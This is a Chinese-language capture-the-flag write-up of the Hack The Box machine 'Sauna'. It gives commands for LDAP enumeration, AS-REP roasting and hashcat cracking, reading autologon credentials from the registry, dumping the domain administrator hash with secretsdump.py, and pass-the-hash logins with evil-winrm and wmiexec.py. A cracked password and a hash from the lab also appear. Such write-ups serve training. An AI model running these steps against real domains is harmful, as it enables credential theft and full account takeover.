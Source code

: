```yaml
---
title: Sauna
date: 2021-12-24 13:54:20
tags: Hack The Box
categories: 内网
---
```


## 靶机信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/0c4f7155f0a144fca320112bb07de39c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 信息收集
发现开放了445，80，88，5985这些常见的可能存在漏洞的端口。因为存在ldap服务，可能考虑到存在内网
![在这里插入图片描述](https://img-blog.csdnimg.cn/18c6ed7749514992adad88f2a6fa97f2.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

发现了smb服务，尝试是否可以登录
![在这里插入图片描述](https://img-blog.csdnimg.cn/cae8f24d7edf4d9ab4db6a15e3d5c60b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
登录失败，那我们查看一下ldap有没有什么有价值的信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/f0249267ceca4d73943001c895249779.png)

```bash
ldapsearch -x -H ldap://10.10.10.175 -b "dc=EGOTISTICAL-BANK,dc=local"
```

```bash
# extended LDIF
#
# LDAPv3
# base <dc=EGOTISTICAL-BANK,dc=local> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#
# EGOTISTICAL-BANK.LOCAL
dn: DC=EGOTISTICAL-BANK,DC=LOCAL
objectClass: top
objectClass: domain
objectClass: domainDNS
distinguishedName: DC=EGOTISTICAL-BANK,DC=LOCAL
instanceType: 5
whenCreated: 20200123054425.0Z
whenChanged: 20211018114224.0Z
subRefs: DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
subRefs: DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
subRefs: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
uSNCreated: 4099
dSASignature:: AQAAACgAAAAAAAAAAAAAAAAAAAAAAAAAQL7gs8Yl7ESyuZ/4XESy7A==
uSNChanged: 98336
name: EGOTISTICAL-BANK
objectGUID:: 7AZOUMEioUOTwM9IB/gzYw==
replUpToDateVector:: AgAAAAAAAAAGAAAAAAAAAEbG/1RIhXVKvwnC1AVq4o8WgAEAAAAAAJ/uf
 RcDAAAAq4zveNFJhUSywu2cZf6vrQzgAAAAAAAAKDj+FgMAAADc0VSB8WEuQrRECkAJ5oR1FXABAA
 AAAADUbg8XAwAAAP1ahZJG3l5BqlZuakAj9gwL0AAAAAAAANDwChUDAAAAm/DFn2wdfEWLFfovGj4
 TThRgAQAAAAAAENUAFwMAAABAvuCzxiXsRLK5n/hcRLLsCbAAAAAAAADUBFIUAwAAAA==
creationTime: 132790309446175365
forceLogoff: -9223372036854775808
lockoutDuration: -18000000000
lockOutObservationWindow: -18000000000
lockoutThreshold: 0
maxPwdAge: -36288000000000
minPwdAge: -864000000000
minPwdLength: 7
modifiedCountAtLastProm: 0
nextRid: 1000
pwdProperties: 1
pwdHistoryLength: 24
objectSid:: AQQAAAAAAAUVAAAA+o7VsIowlbg+rLZG
serverState: 1
uASCompat: 1
modifiedCount: 1
auditingPolicy:: AAE=
nTMixedDomain: 0
rIDManagerReference: CN=RID Manager$,CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL
fSMORoleOwner: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name
 ,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
systemFlags: -1946157056
wellKnownObjects: B:32:6227F0AF1FC2410D8E3BB10615BB5B0F:CN=NTDS Quotas,DC=EGOT
 ISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:F4BE92A4C777485E878E9421D53087DB:CN=Microsoft,CN=Progra
 m Data,DC=EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:09460C08AE1E4A4EA0F64AEE7DAA1E5A:CN=Program Data,DC=EGO
 TISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:22B70C67D56E4EFB91E9300FCA3DC1AA:CN=ForeignSecurityPrin
 cipals,DC=EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:18E2EA80684F11D2B9AA00C04F79F805:CN=Deleted Objects,DC=
 EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:2FBAC1870ADE11D297C400C04FD8D5CD:CN=Infrastructure,DC=E
 GOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:AB8153B7768811D1ADED00C04FD8D5CD:CN=LostAndFound,DC=EGO
 TISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:AB1D30F3768811D1ADED00C04FD8D5CD:CN=System,DC=EGOTISTIC
 AL-BANK,DC=LOCAL
wellKnownObjects: B:32:A361B2FFFFD211D1AA4B00C04FD7D83A:OU=Domain Controllers,
 DC=EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:AA312825768811D1ADED00C04FD8D5CD:CN=Computers,DC=EGOTIS
 TICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:A9D1CA15768811D1ADED00C04FD8D5CD:CN=Users,DC=EGOTISTICA
 L-BANK,DC=LOCAL
objectCategory: CN=Domain-DNS,CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,D
 C=LOCAL
isCriticalSystemObject: TRUE
gPLink: [LDAP://CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=Syste
 m,DC=EGOTISTICAL-BANK,DC=LOCAL;0]
dSCorePropagationData: 16010101000000.0Z
otherWellKnownObjects: B:32:683A24E2E8164BD3AF86AC3C2CF3F981:CN=Keys,DC=EGOTIS
 TICAL-BANK,DC=LOCAL
otherWellKnownObjects: B:32:1EB93889E40C45DF9F0C64D23BBB6237:CN=Managed Servic
 e Accounts,DC=EGOTISTICAL-BANK,DC=LOCAL
masteredBy: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN
 =Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
ms-DS-MachineAccountQuota: 10
msDS-Behavior-Version: 7
msDS-PerUserTrustQuota: 1
msDS-AllUsersTrustQuota: 1000
msDS-PerUserTrustTombstonesQuota: 10
msDs-masteredBy: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Na
 me,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
msDS-IsDomainFor: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-N
 ame,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
msDS-NcType: 0
msDS-ExpirePasswordsOnSmartCardOnlyAccounts: TRUE
dc: EGOTISTICAL-BANK
# Users, EGOTISTICAL-BANK.LOCAL
dn: CN=Users,DC=EGOTISTICAL-BANK,DC=LOCAL
# Computers, EGOTISTICAL-BANK.LOCAL
dn: CN=Computers,DC=EGOTISTICAL-BANK,DC=LOCAL
# Domain Controllers, EGOTISTICAL-BANK.LOCAL
dn: OU=Domain Controllers,DC=EGOTISTICAL-BANK,DC=LOCAL
# System, EGOTISTICAL-BANK.LOCAL
dn: CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL
# LostAndFound, EGOTISTICAL-BANK.LOCAL
dn: CN=LostAndFound,DC=EGOTISTICAL-BANK,DC=LOCAL
# Infrastructure, EGOTISTICAL-BANK.LOCAL
dn: CN=Infrastructure,DC=EGOTISTICAL-BANK,DC=LOCAL
# ForeignSecurityPrincipals, EGOTISTICAL-BANK.LOCAL
dn: CN=ForeignSecurityPrincipals,DC=EGOTISTICAL-BANK,DC=LOCAL
# Program Data, EGOTISTICAL-BANK.LOCAL
dn: CN=Program Data,DC=EGOTISTICAL-BANK,DC=LOCAL
# NTDS Quotas, EGOTISTICAL-BANK.LOCAL
dn: CN=NTDS Quotas,DC=EGOTISTICAL-BANK,DC=LOCAL
# Managed Service Accounts, EGOTISTICAL-BANK.LOCAL
dn: CN=Managed Service Accounts,DC=EGOTISTICAL-BANK,DC=LOCAL
# Keys, EGOTISTICAL-BANK.LOCAL
dn: CN=Keys,DC=EGOTISTICAL-BANK,DC=LOCAL
# TPM Devices, EGOTISTICAL-BANK.LOCAL
dn: CN=TPM Devices,DC=EGOTISTICAL-BANK,DC=LOCAL
# Builtin, EGOTISTICAL-BANK.LOCAL
dn: CN=Builtin,DC=EGOTISTICAL-BANK,DC=LOCAL
# Hugo Smith, EGOTISTICAL-BANK.LOCAL
dn: CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL
# search reference
ref: ldap://ForestDnsZones.EGOTISTICAL-BANK.LOCAL/DC=ForestDnsZones,DC=EGOTIST
 ICAL-BANK,DC=LOCAL
# search reference
ref: ldap://DomainDnsZones.EGOTISTICAL-BANK.LOCAL/DC=DomainDnsZones,DC=EGOTIST
 ICAL-BANK,DC=LOCAL
# search reference
ref: ldap://EGOTISTICAL-BANK.LOCAL/CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOC
 AL
# search result
search: 2
result: 0 Success
# numResponses: 19
# numEntries: 15
# numReferences: 3
```
<!--more-->

我们发现了一个可疑的用户。虽然是找到了用户名，但是我们不没有找到相对应的凭据。这时候我们切换一下思路，浏览一下web服务中有什么有价值的信息可以提供给我们的。
![在这里插入图片描述](https://img-blog.csdnimg.cn/b628002a16b3488681fd917e8308c38f.png)
在关于页面，我们看到了这两个用户的信息，长得貌似和我们信息收集出来的用户信息有点类似。那我们可以猜测这有可能是系统中真实存在的用户。
![在这里插入图片描述](https://img-blog.csdnimg.cn/c588d6ef57d149fabf5e731d9cc5036d.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们尝试获取一下用户对应的哈希值，使用的工具是kerbrute，发现存在`hsmith`和`fsmith`这两个用户并且发现了它们的TGT条目。![在这里插入图片描述](https://img-blog.csdnimg.cn/2627486af25c47ab96b900a0ec75f39b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们先使用impacket包中的`GetNPUsers.py`获取fsmith用户的hash值。
![在这里插入图片描述](https://img-blog.csdnimg.cn/c0949aa761a34cd5ac4cb072c102afb1.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们将他的hash值保存为一个文件，使用hashcat尝试能不能破解成功。破解成功的密码明文值为`Thestrokes23`。这里解释一下参数的含义，-m指的是指定文件的散列值类型，-a指的是指定破解模式，-w是指定字典。

```bash
hashcat -m 18200 -a 0 -w 3 fsmith.hash /usr/share/wordlists/rockyou.txt
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/41e6765292b042028af2e5a18a7e63c0.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/e09120c6a3ab4d2ebc84502a9a0a58b4.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/353674983008426c8e5578b2c332cf9c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
既然破解到了密码，那我们可以登录SMB和WinRM服务了。我们先查看SMB服务，发现了两个共享服务，但是没有一个是有用的。。。
![在这里插入图片描述](https://img-blog.csdnimg.cn/03e072a109fb4bbea8beb8f0a955ab09.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那我们尝试利用WinRM吧，登录成功，拿到第一个flag值。
![在这里插入图片描述](https://img-blog.csdnimg.cn/6b0e08188c09403f95a20de67f6292de.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 提权
我们拿到的只是普通用户的权限，我们的目标当然是管理员权限。首先我们先看看都存在哪些用户，发现存在一个svc_loanmgr用户。
![在这里插入图片描述](https://img-blog.csdnimg.cn/db445cc21449494680e87b2d7ae329f8.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们使用powershell命令查看到它对应的密码。

```powershell
Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | select "Default*"
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/d774cd7d287541eb8c6c68b368fe0424.png)
这个命令要记住它还是有一定难度的，我们也可以通过上传`WindowsEnum.ps1`脚本来完成这任务。
![在这里插入图片描述](https://img-blog.csdnimg.cn/86d1160f61414340a78ab8afd834f34a.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/8c4904ed1ffe46219f42192926e2b54c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
发现这个密码后，我们可以尝试使用登陆进去。但是我试了很多次都是登陆失败
![在这里插入图片描述](https://img-blog.csdnimg.cn/431a23d1a026444781060ce56c83ade6.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那没办法了，我尝试使用`secretsdump.py`脚本看看能不能成功获取到这个用户的哈希值。我们意外发现administrator的hash值，发大财了

```bash
secretsdump.py -dc-ip 10.10.10.175 svc_loanmgr:Moneymakestheworldgoround\!@10.10.10.175
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/24f4c7e28cee4d33bef37d56e48ad59a.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们使用`evil-winrm`进行登录，同时我们还可以使用`wmiexec.py`这个脚本进行登录，但是后者的速度要相较前者慢得多

```bash
evil-winrm -u administrator -H 823452073d75b9d1cf70ebdf86c7f98e -i 10.10.10.175
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/42316c86c9ba4720b9fd0f6684ecec19.png)

```bash
wmiexec.py -hashes :823452073d75b9d1cf70ebdf86c7f98e administrator@10.10.10.175
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/b57c846f068946208ef0673c1765edf0.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
